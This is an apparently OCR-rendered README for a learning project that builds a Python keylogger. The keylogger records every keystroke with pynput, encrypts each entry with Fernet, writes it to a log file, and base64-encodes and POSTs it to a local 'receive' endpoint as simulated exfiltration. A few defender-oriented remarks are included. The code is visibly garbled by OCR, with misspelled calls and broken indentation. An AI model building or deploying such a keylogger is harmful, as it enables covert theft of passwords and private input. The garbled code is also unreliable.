 Keylogger Project
A keylogger is a Program or tool which is used to capture keystrokes.As well as I had used encrypted data Exfilteration.
Exfiltration is a process of transfer of sensitive information from a computer system or network an external destination. 
Exfiltration is actually just same as data theft where attackers aim to extract values data for malicious purposes.
Here following libraries are used for following purposes:-

import os->for file system operation (like checking if the key file exists).

from pynput import Keyboard->Pynput is a library which is used to control and monitor input devices such as keyboard and mouse.From this I included Keyboard for monitoring keyboard.For capturing and Listening to
keytrokes on the system.
From cryptograppy fernet import ferner->This Library provides a secure and easy to use symmetric encryption scheme Here fernet is an encryption algorithom.
import base 64-> for encoding the encrypted data to safely send over the network
import datetime-> For generating timestamp for log entries.
import requests->for sending HTTP POST requests (simulating exfiltration).

Fernet:
The scheme used here is fernet.
Fernet is a symmetric encryption scheme provided by the cryptography library in Python. It is designed to be a secure and user-friendly way to encrypt and decrypt data.
->key File='encryption_key.key':Defines a filename to save or load the encryption key.
->if os.path.exists (key_File):Checks if encryption key file exists.
->with open (Key_File,'rb') as f: If exists, open the key file in binary read mode.
->Key=f.read(): Read the saved fernet key from fik.
->else:If the key file does not exist, generate one.
->Key = Fernet. generate_key()
→ with open (key_File,'wb') as f:creates a new key file for writing the newly generated key.
->f.write (KEY):saves the key to a file for writing the newly generated key.
->fernet = Fernet (KEY):Initializes the zernet encryption/decryption instance with the key.
->Log_File = "keys.txt":Sets the filename where encrypted keystore will be stored.
->KILL_SWITCH=keyboard Key.esc:Sets the ESC key as the kill switch which when pressed will stop logging.

Note:Malware often has kill switches for testing. Analysts can search for these as potential weak points to terminate execution.

Writing Encrypted Logs
Prepare a log entry with timestamp + keystrokes Encrypts it with Fernet.
Writes encrypted data to file
Base64 encodes it and exfilterates by POSTING to a server
Note:I was confused here Log-data is not a pre-defined paramater.It is actually taken that while Calling function we pass the real arguments.
Code->
def
Write_encrypted_logo(log-data):
      timestamp=datetime.datetime.utconow().isofformat()
      log = f"{timestamp}:{log_data}\n"
      enc_log = ferrnet.encrypt (log.encode) 
      with open (LOG_FILE, "ab") as f:
           f.write (enc_log +b'\n')
#simulate exfiltration
b64_ence_log = base64.64 encode(enc_log).decode()
requests.port('http://127.0.0.1:5000/recieve'),
data = {'data': b64_enc_log}
Note:
Defenders should monitor Post traffu to unknown servers and scan for encrypted data leaving endpoints.

Keylogger Listener
def on_press(key):
     try:
        write_encrypted_log(str(key.char))
     except AttributeError:
        write_encrypted_log (str(key))
      if key==KILL_SWITCH:
           #end listener
           return False
Listener=keyboard. Listener(on_press=on_press)
listener.start()
listener.join()
def on_press(key):Defines the callback function that is triggered every time a key is pressed.The key parameter represent the key that was pressed.

